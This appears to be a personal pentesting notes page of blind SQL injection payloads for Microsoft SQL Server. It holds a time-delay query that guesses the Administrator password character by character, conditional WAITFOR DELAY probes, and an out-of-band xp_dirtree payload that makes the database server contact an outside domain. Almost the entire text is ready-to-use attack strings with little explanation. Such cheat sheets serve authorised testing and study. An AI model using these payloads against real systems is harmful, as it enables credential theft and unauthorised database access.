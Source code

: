 ```yaml
---
title: MSSQL -SQLi- Blind
updated: 2023-11-06 12:06:50Z
created: 2023-11-06 10:14:32Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


# Blind SQL Injection - time delay

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

# Blind SQL Injection - conditional time delay
`IF (1=1) WAITFOR DELAY '0:0:10'`
`IF (1=2) WAITFOR DELAY '0:0:10'`
OR
`'; IF (1=1) WAITFOR DELAY '0:0:10'--`
`'; IF (1=2) WAITFOR DELAY '0:0:10'--`

# Blind SQL Injection - OAST OutOfBand
`'; exec master..xp_dirtree '//mydomain.net/a'--`
Caused a DNS lookup on mydomain